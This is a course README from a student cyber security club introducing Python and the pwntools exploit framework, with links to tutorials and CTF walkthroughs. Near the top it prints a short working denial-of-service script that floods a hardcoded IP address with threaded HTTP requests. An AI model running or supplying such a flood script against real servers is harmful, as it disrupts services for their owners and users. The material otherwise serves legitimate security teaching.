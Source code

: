 # Section-2 (Python) 🐍

Welcome to the second section of LS: Tools for Cyber Security :) </br>
This week we will be covering Python along with one of its very powerful library **pwntools**.
<p align="center">
<img src="https://user-images.githubusercontent.com/81357954/153569492-a10ef6ad-3e2a-45ed-bb46-8758eae71cbf.png" alt="drawing" width="400"/>
</p>

**Why it is called Python [:)?](https://docs.python.org/3/faq/general.html#:~:text=Details%20here.-,Why%20is%20it%20called%20Python%3F,to%20call%20the%20language%20Python.)** </br>

[**Python**](https://en.wikipedia.org/wiki/Python_(programming_language)) is an [interpreted](https://www.ibm.com/docs/en/zos-basic-skills?topic=zos-compiled-versus-interpreted-languages) general-purpose programming language. It is one of the most popular and widely-used programming languages in the world due to its high usability and large collection of libraries. 
Again Python is an open source software like Linux. So you can look up its source code [here](https://github.com/python/cpython), though you are not encouraged to read them 🦖.

Is Python itself written in C or C++? [An interesting read](https://softwareengineering.stackexchange.com/questions/20988/why-is-python-written-in-c-and-not-in-c) on this.
Unlike C or C++, Python has [automatic memory management](https://www.geeksforgeeks.org/memory-management-in-python/) i.e. in Python memory allocation and deallocation method is automatic, since it has its own garbage collector, so that the user does not have to do manual garbage collection. Python is a [dynamically typed](https://www.geeksforgeeks.org/type-systemsdynamic-typing-static-typing-duck-typing/) programming language which makes it more succint. 

We prefer Python in cyber security, because complex scripts or attacks can be easily written in it. It helps to automate tasks across the cyberattack life cycle for both cyber attackers and defenders. Also, debugging python codes is quite simple.

``` python
import socket
import threading
target = '103.21.127.134'
fake_ip = '182.21.20.32'
port = 80
def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()
```
<p align="center">
  Snippet of a simple <a href ="https://en.wikipedia.org/wiki/Denial-of-service_attack">DoS attack</a> script in python. 
</p>


## Installation
We are not taking up `how to install python`. Since it is available by default on Linux. Also, just a google search away :).</br>
[Here](http://docs.pwntools.com/en/latest/install.html) is the link to install `pwntools`. Though it comes pre installed on the VM we have provided.

## Overview
This week's content includes an introduction to Python(syntax and such stuff). These resources will make you comfortable with python.</br>
Followed by an introduction to [pwntools](http://docs.pwntools.com/en/latest/), an interesting framework. `Pwntools` in itself is a huge package and even a dedicated module would be less to know everything about it. It will get you familiar with writing exploit scripts in Python.</br>
Some other important modules/libraries regularly used are [sys](https://docs.python.org/3/library/sys.html), [os](https://docs.python.org/3/library/os.html), [subprocess](https://docs.python.org/3/library/subprocess.html), all these are in-built python modules.

## Our Introductory Session for Python

[CSeC - Intro to Python](https://iitbacin.sharepoint.com/:v:/s/CSecClub/ETXm3oSRRoJKgKDCaKLiRbYBTh5fLAYkaow3MX59-5FTyQ?e=1rRkWg) | [Colab Notebook link](https://colab.research.google.com/drive/1jtco0kzb9pg7eAPUEh4VEAP8k7Iq1J3P?usp=sharing)

Credits to [scimaths](https://github.com/scimaths) 🙏
## Text guides

1. [Pico Primer(python + other basics)](https://primer.picoctf.com/#_programming_in_python)
2. [Intro to Python](http://introtopython.org/) (You may skip classes)
3. [Pwntools Cheat Sheet](https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf)

## Video guides
- Another brief learn python [playlist](https://www.youtube.com/playlist?list=PLQVvvaa0QuDeAams7fkdcwOGBpGdHpXln) (The first 8 videos (85 mins) of the playlist are enough to get you going, you may skip the remaining videos :)


## CTF challenge Walkthroughs
1. string evaluation of input in python2 [HSCTF - Python Remote Code Execution ](https://www.youtube.com/watch?v=gmaWOknsb2A) (5 min) | Read more about Python2.x [input vulnerability](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)
1. pwntools process interaction [GOOGLE CTF 2021](https://www.proggen.org/doku.php?id=security:ctf:writeup:google:2021:filestore) (good read)
2. pwntools in bash [TAMU CTF 2020](https://www.youtube.com/watch?v=fZ3mPRctbO0) (17 mins)
3. Request module usage [OverTheWire natas level4](https://www.youtube.com/watch?v=Sf63W1xXzNU) (11  mins)
4. Pyjail  [Offshift 2021](https://www.youtube.com/watch?v=aK3b0PM1Fz8) (6 mins)

## Practice
- [PicoGym](https://play.picoctf.org/practice) (Filter challenges by **General Skills**)


Discussions among mentees are encouraged and we request you to use the corresponding Team on MS Teams or the corresponding WhatsApp group for the same.
<p align="center">Created with :heart: by <a href="https://linktr.ee/csec.iitb">CSeC</a></p>

